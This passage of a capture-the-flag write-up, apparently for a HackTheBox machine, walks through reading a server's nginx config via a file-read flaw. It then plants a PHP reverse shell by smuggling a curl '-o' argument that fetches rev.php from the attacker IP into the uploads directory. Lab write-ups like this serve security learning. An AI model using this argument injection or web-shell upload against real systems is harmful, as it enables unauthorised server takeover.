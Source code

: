 
The format is not the bset one but we have something to read file in th server

Now lets read nginx config to know where is he absolute path for the web site.

```bash
### You should look at the following URL's in order to grasp a solid understanding# of Nginx configuration files in order to fully unleash the power of Nginx.# http://wiki.nginx.org/Pitfalls# http://wiki.nginx.org/QuickStart# http://wiki.nginx.org/Configuration## Generally, you will want to move this file somewhere, and start with a clean# file but keep this around for reference. Or just disable in sites-enabled.## Please see /usr/share/doc/nginx-doc/examples/ for more detailed examples.### Default server configuration#server {   listen 80 default_server;       listen [::]:80 default_server;  # SSL configuration     #       # listen 443 ssl default_server;        # listen [::]:443 ssl default_server;       #       # Note: You should disable gzip for SSL traffic.        # See: https://bugs.debian.org/773332   #       # Read up on ssl_ciphers to ensure a secure configuration.      # See: https://bugs.debian.org/765782   #       # Self signed certs generated by the ssl-cert package       # Don't use them in a production server!        #       # include snippets/snakeoil.conf;       root /var/www/html;     # Add index.php to the list if you are using PHP        index index.html index.htm index.nginx-debian.html; server_name _;  location / {            # First attempt to serve request as file, then          # as directory, then fall back to displaying a 404.             try_files $uri $uri/ =404; # autoindex on;  }       # pass the PHP scripts to FastCGI server listening on 127.0.0.1:9000    #       location ~ \.php$ {             include snippets/fastcgi-php.conf;      #       #       # With php7.0-cgi alone:        #       fastcgi_pass 127.0.0.1:9000;        #       # With php7.0-fpm:              fastcgi_pass unix:/run/php/php7.0-fpm.sock;     }       # deny access to .htaccess files, if Apache's document root     # concurs with nginx's one      #       #location ~ /\.ht { #       deny all;       #}}# Virtual Host configuration for example.com## You can move that to a different file under sites-available/ and symlink that# to sites-enabled/ to enable it.##server {#     listen 80;#     listen [::]:80;##   server_name example.com;##      root /var/www/example.com;#     index index.html;##     location / {#           try_files $uri $uri/ =404;#     }#}
```

From this code we can infier that the root is /var/www/html, let’s check this out by getting a file from that route like index.html.

```bash
POST /test.html HTTP/1.1
Host: 10.10.14.5
User-Agent: curl/7.47.0
Accept: */*
Content-Length: 137
Content-Type: application/x-www-form-urlencoded

<!DOCTYPE html><title> HTB Hairdresser </title><center> <br><br><br><br><img src="bounce.jpg" height="750" width="1200" alt="" /><center>
```

And we have a hit, so maybe we can download a php file to that route and execute it.

### Uploading a PHP file

- `http://10.10.14.5/rev.php -o ./uploads/rev_web.php`

Actually we could specify the route as a relative path and it should work, we don’t need to know the absolute path of the server. We have to write in the uploads directory, otherwise we will receive a permission error message. This directory was found during the fuzzing phase.
